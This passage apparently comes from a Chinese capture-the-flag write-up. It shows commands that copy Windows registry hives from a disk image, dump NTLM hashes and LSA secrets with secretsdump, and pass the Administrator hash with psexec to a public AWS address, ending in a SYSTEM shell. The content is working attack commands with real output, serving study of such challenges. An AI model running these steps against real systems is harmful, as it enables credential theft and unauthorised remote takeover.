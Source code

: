 ```bash
drwxrwxrwx  1 0 0 8192 Apr 10 04:12 Boot
drwxrwxrwx  1 0 0    0 Nov 14  2018 EFI
drwxrwxrwx  1 0 0    0 May  7 13:54 Windows

><fs> ll /Windows/System32/config | grep -E "SAM|SYSTEM"
-rwxrwxrwx 1 0 0    65536 May  7 13:57 SAM
....
-rwxrwxrwx 1 0 0 17039360 May  7 13:57 SYSTEM

><fs> copy-out /Windows/System32/config/SAM /root
><fs> copy-out /Windows/System32/config/SYSTEM /root
><fs> copy-out /Windows/System32/config/SECURITY /root
```

然后本地 dump 哈希（~~用mac或linux的师傅可千万别像WP专门开个win机子把 vhdx 放 win 里面弄.jpg~~）

```bash
> secretsdump.py -sam ./SAM -system ./SYSTEM -security ./SECURITY LOCAL
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Target system bootKey: 0x1bb6cbe6d4904d937f3a7538946c1634
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b4781dad49c808c37bf3491dec3df91:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM
dpapi_machinekey:0x951254f751a98ef0e51bfff7783a4f944e735be6
dpapi_userkey:0x56339180d42be8c236762804e80c758af2f21e40
[*] NL$KM
 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] Cleaning up...
```

NTLM哈希传递拿下 AWS 的实例

```bash
> psexec.py -hashes :0b4781dad49c808c37bf3491dec3df91 Administrator@54.208.244.117

Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Requesting shares on 54.208.244.117.....
[*] Found writable share ADMIN$
[*] Uploading file wSNlSthy.exe
[*] Opening SVCManager on 54.208.244.117.....
[*] Creating service iSGU on 54.208.244.117.....
[*] Starting service iSGU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.5696]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```
